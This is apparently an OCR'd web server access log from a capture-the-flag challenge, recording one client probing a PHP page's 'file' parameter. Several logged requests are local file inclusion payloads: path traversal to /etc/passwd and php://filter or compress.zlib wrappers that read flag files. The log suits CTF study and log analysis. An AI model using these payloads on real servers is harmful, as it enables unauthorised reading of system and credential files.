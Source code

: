 ```txt
42.92.203.212 - - [22/Jan/2025:13:07:23 +0000] "GET / HTTP/1.1" 200 1534 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36 Edg/132.0.0.0" 42.92.203.212 - - [22/Jan/2025:13:07:24 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36 Edg/132.0.0.0" 42.92.203.212 - - [22/Jan/2025:13:13:02 +0000] "GET / HTTP/1.1" 200 1534 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:13:03 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:14:02 +0000] "GET /?file=compress.zlib://flag.php HTTP/1.1" 200 15 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:14:02 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=compress.zlib://flag.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:14:04 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:16:38 +0000] "GET /?file=/etc/passwd HTTP/1.1" 200 1346 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:16:38 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=/etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:18:15 +0000] "GET /?file=PHP://filter/convert.base64-encode/resource=flag.txt HTTP/1.1" 200 15 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:18:16 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=PHP://filter/convert.base64-encode/resource=flag.txt" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:18:29 +0000] "GET /?file=../../../../../etc/passwd HTTP/1.1" 200 1346 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:18:29 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=../../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:20:24 +0000] "GET /?file=../flag HTTP/1.1" 200 15 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:20:24 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=../flag" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:21:23 +0000] "GET /?file=index//php HTTP/1.1" 200 15 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:21:23 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=index//php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:21:25 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=../../../../../etc/passwd" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:21:26 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:22:23 +0000] "GET /?file=index.p/hp HTTP/1.1" 200 335 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:22:23 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=index.p/hp" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:23:07 +0000] "GET /?file=.?file=./ HTTP/1.1" 200 15 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:23:07 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=.?file=./" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:23:18 +0000] "GET /?file=.? HTTP/1.1" 200 319 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:23:18 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=.?" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
```